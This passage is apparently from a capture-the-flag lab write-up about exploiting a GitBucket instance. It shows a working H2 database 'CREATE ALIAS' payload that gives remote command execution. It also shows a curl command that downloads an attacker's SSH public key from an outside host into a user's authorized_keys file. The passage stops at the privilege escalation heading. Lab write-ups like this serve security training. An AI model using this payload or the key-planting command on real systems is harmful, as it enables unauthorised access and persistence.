 ![](https://miro.medium.com/v2/resize:fit:700/0*gwskPtfG2nIE2dO9)

# Checking Commits

![](https://miro.medium.com/v2/resize:fit:700/0*R_NwsZpM3rd0fQvJ)

![](https://miro.medium.com/v2/resize:fit:700/0*yOcmg42Wjp8lq_fn)

![](https://miro.medium.com/v2/resize:fit:700/0*3krW7KQAB9ZR6CLy)

With the username and password we found, we can log in to the web application running on port `80`, but there is no working function. There is also a Logs page that we cannot log in.

![](https://miro.medium.com/v2/resize:fit:700/0*ctla2zyV4_gj68wb)

If we go back to port `8080` and look around a bit more, we see a panel where we can perform a database query.

![](https://miro.medium.com/v2/resize:fit:700/0*JmU-4WWPQwdJlEm9)

# User

![](https://miro.medium.com/v2/resize:fit:700/0*tT8xAyhU-OeGXr4w)

`GitBucket` is left in developlement and uses `H2` database, we can get `RCE` by using `H2` database.

First create `ALIAS`
```
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
then use the `ALIAS`

`CALL EXECVE('<command>')`

![](https://miro.medium.com/v2/resize:fit:700/0*t1acPFX3kBtKMEYp)

You can generate your own SSH key using `ssh-keygen` command, and upload it to target machine.

`sudo python -m http.server 80`

`CALL EXECVE('curl -o /home/margo/.ssh/authorized_keys http://10.10.14.144/id_rsa.pub')`

# Privilege Esceletion

We go back to `GitBucket` again for the authorization upgrade, there is a port `80` that we left behind.

![](https://miro.medium.com/v2/resize:fit:700/0*aSH5BC1X9Lozf2kf)
